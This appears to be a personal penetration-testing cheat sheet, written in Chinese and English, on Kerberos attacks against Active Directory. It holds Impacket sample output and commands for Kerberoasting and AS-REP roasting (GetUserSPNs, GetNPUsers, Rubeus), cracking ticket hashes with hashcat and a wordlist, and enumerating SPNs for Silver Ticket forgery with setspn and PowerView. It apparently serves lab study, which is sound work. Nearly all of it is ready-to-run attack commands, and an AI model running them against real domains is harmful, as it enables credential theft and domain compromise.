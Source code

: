 ```shell-session
```
```shell-session
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain
....
```
- 用GetUserSPNs抓取所有SPN的TGS ticket
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.187.70 corp.com/pete
```
- 用GetUserSPNs抓取單一SPN的TGS ticket
```shell-session
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
- 用GetUserSPNs tested for a quick No-Preauth kerberos win without supplying a username
```
GetNPUsers.py cascade.local/ -dc-ip 10.10.10.182
```
### Rubeus
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
### hashcat -- 用於爆破產出的密碼
```
sudo hashcat -m 13100 kerberos.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
## Silver Tickets
>[!NOTE]
>偽造 **TGS（服務票證）**，只需要該服務帳號的密碼 hash 或 AES key（如 CIFS/HTTP 的 service account）

>[!WARNING]
>要製作Silver Ticket需要以下三個條件
>- SPN password hash
>- Domain SID
>- Target SPN
- 利用SPN列舉當前目標機器上有哪些可以發 Kerberos 票的服務 (SPN)
``` powershell
setspn -Q */*
```
``` powershell
setspn -Q */dcorp-dc*
```
``` powershell
Import-Module .\PowerView.ps1
Get-DomainComputer -Identity dcorp-dc | Get-DomainSPNTicket
Get-DomainComputer -Identity dcorp-dc | Select -ExpandProperty servicePrincipalName
```
